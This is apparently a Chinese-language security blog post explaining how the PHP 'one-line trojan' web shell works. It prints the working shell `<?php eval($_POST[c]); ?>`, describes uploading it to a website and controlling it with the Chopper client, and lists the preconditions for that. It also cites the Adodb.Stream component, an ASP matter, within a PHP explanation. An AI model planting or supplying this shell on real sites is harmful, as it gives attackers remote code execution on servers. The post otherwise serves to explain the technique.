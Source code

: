 ```yaml
---
layout: post
title: 	浅析一句话木马
category : 信息安全
tags : [木马, php, 原理]
stickie: true
---
```


一开始对于一句话木马感觉很神奇，因为它特别的短，用过的人都知道。分析原理后，又非常想知道到底是什么人想出这么一个好的想法，真的非常的天才。

以php一句话为例子

```php
<?php eval($_POST[c]); ?>
```
我么将这句话保存为x.php文件上传到网站中，通过菜刀可以轻松连接。

<center class="half">
    <img src="https://raw.githubusercontent.com/wiki/luliyucoordinate/ImageBed/caidao/2019_6_25_1.jpg" width="600">
</center>

究其原理其实很简单，看下面这个做法，通过对x.php中的c进行post

<center class="half">
    <img src="https://raw.githubusercontent.com/wiki/luliyucoordinate/ImageBed/caidao/2019_6_25_2.jpg" width="300">
</center>

菜刀的功能无非是把我们要post的数据传给了c，而这个c在菜刀中就是“密码”。

**一句话木马能连接成功有两个前提条件：** 

1.  服务器端没有禁止Adodb.Stream组件，因为我们使用一句话木马写入WebShell代码的条件是服务器端创建Adodb.Stream组件，如果该组件被禁用的话无法写入。 
2.  权限问题，如果当前的虚拟目录禁止user组或者everyone写入，同样不会成功。